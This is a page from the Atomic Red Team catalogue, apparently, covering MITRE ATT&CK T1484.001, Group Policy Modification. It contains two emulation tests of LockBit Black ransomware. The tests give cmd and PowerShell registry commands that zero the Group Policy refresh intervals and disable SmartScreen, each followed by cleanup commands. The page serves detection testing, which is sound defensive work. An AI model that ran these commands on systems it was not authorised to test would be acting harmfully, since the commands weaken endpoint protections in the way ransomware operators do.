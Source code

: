 ```yaml
---
tags: [T1484_001, atomic_test]
filename: "[[T1484.001|T1484.001 - Domain Policy Modification: Group Policy Modification]]"
---
```


# T1484.001 - Domain Policy Modification: Group Policy Modification
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1484/001)
<blockquote>Adversaries may modify Group Policy Objects (GPOs) to subvert the intended discretionary access controls for a domain, usually with the intention of escalating privileges on the domain. Group policy allows for centralized management of user and computer settings in Active Directory (AD). GPOs are containers for group policy settings made up of files stored within a predictable network path `\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\`.(Citation: TechNet Group Policy Basics)(Citation: ADSecurity GPO Persistence 2016) 

Like other objects in AD, GPOs have access controls associated with them. By default all user accounts in the domain have permission to read GPOs. It is possible to delegate GPO access control permissions, e.g. write access, to specific users or groups in the domain.

Malicious GPO modifications can be used to implement many other malicious behaviors such as [Scheduled Task/Job](https://attack.mitre.org/techniques/T1053), [Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001), [Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105), [Create Account](https://attack.mitre.org/techniques/T1136), [Service Execution](https://attack.mitre.org/techniques/T1569/002),  and more.(Citation: ADSecurity GPO Persistence 2016)(Citation: Wald0 Guide to GPOs)(Citation: Harmj0y Abusing GPO Permissions)(Citation: Mandiant M Trends 2016)(Citation: Microsoft Hacking Team Breach) Since GPOs can control so many user and machine settings in the AD environment, there are a great number of potential attacks that can stem from this GPO abuse.(Citation: Wald0 Guide to GPOs)

For example, publicly available scripts such as <code>New-GPOImmediateTask</code> can be leveraged to automate the creation of a malicious [Scheduled Task/Job](https://attack.mitre.org/techniques/T1053) by modifying GPO settings, in this case modifying <code>&lt;GPO_PATH&gt;\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml</code>.(Citation: Wald0 Guide to GPOs)(Citation: Harmj0y Abusing GPO Permissions) In some cases an adversary might modify specific user rights like SeEnableDelegationPrivilege, set in <code>&lt;GPO_PATH&gt;\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf</code>, to achieve a subtle AD backdoor with complete control of the domain because the user account under the adversary's control would then be able to modify GPOs.(Citation: Harmj0y SeEnableDelegationPrivilege Right)</blockquote>

## Atomic Tests

- [Atomic Test #1 - LockBit Black - Modify Group policy settings -cmd](#atomic-test-1---lockbit-black---modify-group-policy-settings--cmd)

- [Atomic Test #2 - LockBit Black - Modify Group policy settings -Powershell](#atomic-test-2---lockbit-black---modify-group-policy-settings--powershell)


<br/>

## Atomic Test #1 - LockBit Black - Modify Group policy settings -cmd
An adversary can modify the group policy settings.

**Supported Platforms:** Windows


**auto_generated_guid:** 9ab80952-74ee-43da-a98c-1e740a985f28






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeDC /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeOffsetDC /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTime /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeOffset /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v EnableSmartScreen /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v ShellSmartScreenLevel /t REG_SZ /d Block /f
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeDC /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeOffsetDC /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTime /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeOffset /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v EnableSmartScreen /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v ShellSmartScreenLevel /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - LockBit Black - Modify Group policy settings -Powershell
An adversary modifies group policy settings

**Supported Platforms:** Windows


**auto_generated_guid:** b51eae65-5441-4789-b8e8-64783c26c1d1






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeDC -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeOffsetDC -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTime -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeOffset -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name EnableSmartScreen -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name ShellSmartScreenLevel -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeDC -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeOffsetDC -Force -ErrorAction Ignore 
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTime -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeOffset -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name EnableSmartScreen -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name ShellSmartScreenLevel -Force -ErrorAction Ignore
```





<br/>

